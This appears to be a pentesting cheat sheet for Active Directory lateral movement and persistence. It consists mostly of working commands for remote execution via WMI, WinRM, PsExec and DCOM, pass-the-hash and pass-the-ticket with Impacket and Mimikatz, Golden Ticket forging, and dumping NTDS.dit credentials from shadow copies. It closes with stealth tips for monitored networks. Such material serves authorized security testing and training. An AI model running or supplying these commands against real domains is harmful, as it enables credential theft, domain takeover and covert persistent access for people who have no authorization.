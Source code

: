 # Active Directory Lateral Movement & Persistence - AD Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to achieve here?

⭐ After gaining a foothold in an AD environment, I realistically expect to:

- [ ] Move laterally to other systems without cracking passwords
- [ ] Execute commands remotely via WMI, WinRM, PsExec, or DCOM
- [ ] Leverage stolen credentials or hashes for further compromise
- [ ] Abuse Kerberos tickets for authentication (Pass-the-Ticket / Overpass-the-Hash)
- [ ] Maintain long-term access using persistence techniques (Golden Ticket, Shadow Copies)
- [ ] Extract credential material from AD (NTDS.dit, SYSTEM hive)
- [ ] Gain Domain Admin or equivalent privileges

---

## ✅ 1. WMI-Based Lateral Movement

- [ ] **Command-Line WMI Execution**
    ```bash
    # Spawn process remotely
    wmic /node:<TARGET_IP> /user:<USERNAME> /password:<PASSWORD> process call create "calc"
    ```

- [ ] **PowerShell WMI (CIM Session)**
    ```powershell
    $username = 'USERNAME';
    $password = 'PASSWORD';
    $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

    $options = New-CimSessionOption -Protocol DCOM
    $session = New-Cimsession -ComputerName <TARGET_IP> -Credential $credential -SessionOption $Options
    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="calc"}
    ```

- [ ] **Reverse Shell Payload**
    - Encode with Python:
        ```bash
        python3 encode.py
        ```
    - Use in PowerShell:
        ```powershell
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
        ```

---

## ✅ 2. WinRM / WinRS Lateral Movement

- [ ] **WinRS (Remote Command Execution)**
    ```cmd
    winrs -r:<TARGET_HOST> -u:<USERNAME> -p:<PASSWORD> "cmd /c hostname & whoami"
    ```

- [ ] **PowerShell Remoting**
    ```powershell
    $username = 'USERNAME';
    $password = 'PASSWORD';
    $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

    $session = New-PSSession -ComputerName <TARGET_IP> -Credential $credential
    Enter-PSSession $session
    ```

---

## ✅ 3. PsExec Execution

- [ ] **PsExec Interactive Session**
    ```cmd
    PsExec64.exe -i \\<TARGET_HOST> -u <DOMAIN>\<USER> -p <PASSWORD> cmd
    ```

---

## ✅ 4. Pass the Hash (PtH)

- [ ] **Impacket wmiexec**
    ```bash
    impacket-wmiexec -hashes :<NTLM_HASH> <USERNAME>@<TARGET_IP>
    ```

---

## ✅ 5. Overpass the Hash

- [ ] **Mimikatz sekurlsa::pth**
    ```cmd
    sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:powershell
    ```

- [ ] **Verify Kerberos Tickets**
    ```cmd
    klist
    ```

---

## ✅ 6. Pass the Ticket

- [ ] **Export Tickets with Mimikatz**
    ```cmd
    sekurlsa::tickets /export
    ```

- [ ] **Inject Ticket**
    ```cmd
    kerberos::ptt <ticket.kirbi>
    ```

---

## ✅ 7. DCOM Lateral Movement

- [ ] **MMC Application Abuse**
    ```powershell
    $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<TARGET_IP>"))
    $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
    ```

---

## ✅ 8. Persistence Techniques

- [ ] **Golden Ticket**
    ```cmd
    kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt
    ```

- [ ] **Shadow Copies**
    ```cmd
    vshadow.exe -nw -p C:
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\ntds\ntds.dit C:\ntds.dit.bak
    reg.exe save hklm\system c:\system.bak
    ```

- [ ] **Dump Credentials Offline**
    ```bash
    impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
    ```

---

## ✅ Quick References

- **Ports Used**
    - WMI: TCP 135 + High Ports
    - WinRM: 5985 (HTTP), 5986 (HTTPS)
    - PsExec & PtH: TCP 445 (SMB)
    - DCOM: TCP 135
- **Tools**
    - Mimikatz
    - Impacket
    - PsExec
    - vshadow.exe

---

### 🔍 Key Notes
- Always ensure target allows required services (WinRM, SMB)
- Use Kerberos where possible for stealth
- Prefer ticket-based over hash-based methods in monitored environments

---
